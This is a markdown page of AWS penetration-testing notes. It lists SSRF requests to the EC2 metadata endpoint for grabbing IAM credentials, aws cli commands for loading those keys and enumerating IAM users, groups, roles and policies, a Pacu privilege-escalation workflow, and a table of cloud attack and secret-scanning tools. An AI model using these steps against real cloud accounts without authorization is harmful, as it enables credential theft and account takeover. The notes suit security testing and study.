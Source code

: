 ```yaml
---
layout: notes
permalink: /notes/cloud/aws/
title: AWS Pentesting Notes
---
```


# AWS Pentesting Notes

### SSRF
```
curl http://169.254.169.254/latest/meta-data/

http://169.254.169.254/latest/user-data/iam/security-credentials/
http://169.254.169.254/latest/user-data/iam/security-credentials/<ROLE NAME>
http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-role
http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-default-ssm/
```

Configuring the access with Long-Term credentials:
```bash
aws configure —profile atomic-nuclear
```
> ⚠️ Note: If the Access Key start with AKIA* - that belongs to LONG-TERM credentials

Get information about configured identity
```bash
aws sts get-caller-identity —profile atomic-nuclear
```
Configuring the access with Short-Term credentials:
```bash
aws configure
```
> ⚠️ Note: If the Access Key start with ASIA* - that belongs to SHORT-TERM credentials

### AWS credentials path
Windows
> ![image.png](/assets/images/aws-5.png)

Linux
> ![image.png](/assets/images/aws-6.png)

### Configure aws cli
```
aws configure set aws_access_key_id [key-id] --profile ec2
aws configure set aws_secret_access_key [key-id] --profile ec2
aws configure set aws_session_token [token] --profile ec2
aws sts get-caller-identity --profile ec2
```

## Enumeration

### Users

List Users
```bash
aws iam list-users
```
List Groups
```bash
aws iam list-groups
```
List the IAM groups that the specified IAM user belongs to
```bash
aws iam list-groups-for-user --user-name [user-name]
```
List all manages policies that are attached to the specified IAM user :
```bash
aws iam list-attached-user-policies --user-name [user-name]
```
Lists the names of the inline policies embedded in the specified IAM user :
```bash
aws iam list-user-policies --user-name [user-name]
```
### GROUPS

List of IAM Groups :
```bash
aws iam list-groups
```
List of all users in a groups :
```bash
aws iam get-group --group-name [group-name]
```
Lists all managed policies that are attached to the specified IAM Group :
```bash
aws iam list-attached-group-policies --group-name [group-name]
```
List the names of the inline policies embedded in the specified IAM Group:
```bash
aws iam list-group-policies --group-name [group-name]
```
### ROLES

List of IAM Roles :
```bash
aws iam list-roles
```
Lists all managed policies that are attached to the specified IAM role :
```bash
aws iam list-attached-role-policies --role-name [ role-name]
```
List the names of the inline policies embedded in the specified IAM role :
```bash
aws iam list-role-policies --role-name [ role-name]
```
### POLICIES

List of all iam policies :
```bash
aws iam list-policies
```
Retrieves information about the specified managed policy :
```bash
aws iam get-policy --policy-arn [policy-arn]
```
Lists information about the versions of the specified manages policy :
```bash
aws iam list-policy-versions --policy-arn [policy-arn]
```
Retrieved information about the specified version of the specified managed policy : 
```bash
aws iam get-policy-version --policy-arn policy-arn --version-id [version-id]
```
Retrieves the specified inline policy document that is embedded on the specified IAM user / group / role :
```bash
aws iam get-user-policy --user-name user-name --policy-name [policy-name]
aws iam get-group-policy --group-name group-name --policy-name [policy-name]
aws iam get-role-policy --role-name role-name --policy-name [policy-name]
```

## References and more techniques
[Hacking the Cloud](https://hackingthe.cloud/)

## Automated Tools

### Pacu

Setting the initial user access key in pacu 
```bash
set_keys
```
Get the permission of current logged-in user 
```bash
exec iam__enum_permissions
whoami
```
Enumerate ec2 instance and get the public ip addresses.
```bash
exec ec2__enum
data EC2
#The results will show another public IP addresses, we can perform another SSRF/RCE attack to retrieve another’s AWS Credentials as above.
```
Set the temporary credential for role attached to ec2 instance.
```bash
set_keys
```
Get the permission of current logged-in role.
```bash
exec iam__enum_permissions
whoami
```
Enumerate privilege escalation permission and exploit it. 
```bash
exec iam__privesc_scan
```
Again, check the permission of privilege escalated role.
```bash
exec iam__enum_permissions
whoami
```

### Cloud Enum

```bash
cloud_enum -k 'CompanyName'
```

## Other tools

| [cloudfox](https://github.com/BishopFox/cloudfox)|- Find exploitable attack paths in cloud infrastructure|
| [WeirdAAL](https://github.com/carnal0wnage/weirdAAL) |- AWS Attack Library|
| [Pacu](https://github.com/RhinoSecurityLabs/pacu) |- AWS penetration testing toolkit|
| [Cred Scanner](https://github.com/disruptops/cred_scanner) |- A simple file-based scanner to look for potential AWS access and secret keys in files|
| [AWS PWN](https://github.com/dagrz/aws_pwn) |- A collection of AWS penetration testing tools|
| [Cloudfrunt](https://github.com/MindPointGroup/cloudfrunt) |- A tool for identifying misconfigured CloudFront domains|
| [Cloudjack](https://github.com/prevade/cloudjack) |- Route53/CloudFront Vulnerability Assessment Utility|
| [Nimbostratus](https://github.com/andresriancho/nimbostratus) |- Tools for fingerprinting and exploiting Amazon cloud infrastructures|
| [GitLeaks](https://github.com/zricethezav/gitleaks) |- Audit git repos for secrets|
| [TruffleHog](https://github.com/dxa4481/truffleHog) |- Searches through git repositories for high entropy strings and secrets, digging deep into history|
| [DumpsterDiver](https://github.com/securing/DumpsterDiver) |- Tool to search secrets in various filetypes (e.g., AWS Access Key, Azure Share Key, SSH keys, passwords)|
| [Mad-King](https://github.com/ThreatResponse/mad-king) |- Proof of Concept Zappa Based AWS Persistence and Attack Platform|
| [Cloud-Nuke](https://github.com/gruntwork-io/cloud-nuke) |- A tool for cleaning up cloud accounts by deleting all resources|
| [MozDef](https://github.com/mozilla/MozDef) |- Automates security incident handling and facilitates real-time incident response|
| [Lambda-Proxy](https://github.com/puresec/lambda-proxy) |- Bridge between SQLMap and AWS Lambda to test for SQL Injection vulnerabilities|
| [CloudCopy](https://github.com/Static-Flow/CloudCopy) |- Cloud version of Shadow Copy attack against domain controllers in AWS using EC2:CreateSnapshot|
| [enumerate-iam](https://github.com/andresriancho/enumerate-iam) |- Enumerate permissions associated with AWS credential sets|
| [Barq](https://github.com/Voulnet/barq) |- Post-exploitation framework for attacking running AWS infrastructure|
| [CCAT](https://github.com/RhinoSecurityLabs/ccat) |- Cloud Container Attack Tool for testing container environment security|
| [Dufflebag](https://github.com/bishopfox/dufflebag) |- Search exposed EBS volumes for secrets|
| [attack_range](https://github.com/splunk/attack_range) |- Create vulnerable, instrumented local or cloud environments for attack simulation and Splunk data|
| [whispers](https://github.com/Skyscanner/whispers) |- Identify hardcoded secrets and dangerous behaviors in code|
| [Redboto](https://github.com/elitest/Redboto) |- Red Team AWS scripts|
| [CloudBrute](https://github.com/0xsha/cloudbrute) |- Tool to find company infrastructure, files, and apps on top cloud providers|